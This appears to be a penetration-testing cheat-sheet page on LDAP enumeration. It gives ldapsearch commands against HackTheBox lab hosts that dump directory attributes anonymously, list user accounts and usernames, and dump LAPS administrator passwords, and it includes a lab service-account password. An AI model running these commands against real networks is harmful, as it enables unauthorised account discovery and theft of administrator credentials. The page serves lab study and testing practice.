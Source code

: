 # LDAP

## ldapsearch

### anonymous authentication&#x20;

If server accepts anonymous authentication

{% code overflow="wrap" %}
```bash
# gets all attributes
ldapsearch -x -h 10.10.10.161 -b "dc=htb,dc=local" "*" #i.e. domain = htb.local
# find user accounts
ldapsearch -x -h 10.10.10.161 -b "dc=htb,dc=local" "objectclass=user"
# get possible username
ldapsearch -x -h 10.10.10.161 -b "dc=htb,dc=local" "objectclass=user" sAMAccountName | grep sAMAccountName | awk -F ": " '{print $2}'
# dump LAPS passwords
ldapsearch -D user@htb.local -w PASSWORD -o ldif-wrap=no -b 'dc=htb,dc=local' -h 10.10.10.123 "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```
{% endcode %}

search LDAP with admin account

{% code overflow="wrap" %}
```bash
ldapsearch -x -h 10.10.10.100 -p 389 -D SVC_TGS -w GPPstillStandingStrong2k18 -b "dc=active,dc=htb"
```
{% endcode %}

## Resources

{% embed url="https://vk9-sec.com/enumerating-ad-users-with-ldap/" %}

{% embed url="https://infinitelogins.com/2020/12/09/enumerating-ldap-port-389/" %}

{% embed url="https://room362.com/post/2017/dump-laps-passwords-with-ldapsearch/" %}
